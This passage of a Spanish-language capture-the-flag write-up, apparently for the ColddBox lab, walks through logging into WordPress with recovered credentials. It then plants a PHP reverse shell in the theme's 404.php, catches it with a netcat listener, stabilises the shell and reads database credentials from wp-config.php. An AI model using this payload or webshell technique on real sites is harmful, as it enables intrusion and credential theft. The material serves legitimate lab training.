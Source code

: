 Vemos que sacamos las credenciales...

```
User = C0ldd
Password = 9876543210
```

Por lo que nos logeamos en el panel de login con esas credenciales, una vez dentro nos vamos a `Appearance` y nos vamos a `Theme`, dentro del mismo nos vamos a `404.php` para inyectar un codigo de `Reverse Shell`...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Le damos a `Update File` pero estando a la escucha...

```shell
nc -lvnp <PORT>
```

Nos vamos a la pagina principal, pinchamos en algun lado para que nos redirija a una `URL` de `wordpress` y quitar algunos caracteres para que nos salga un `404` pero de `wordpress` y tendriamos una shell con el usuario `www-data`...

Por lo que sanitizaremos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la siguiente direccion...

```shell
cd /var/www/html/
```

```shell
cat wp-config.php
```

Info:

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');
```
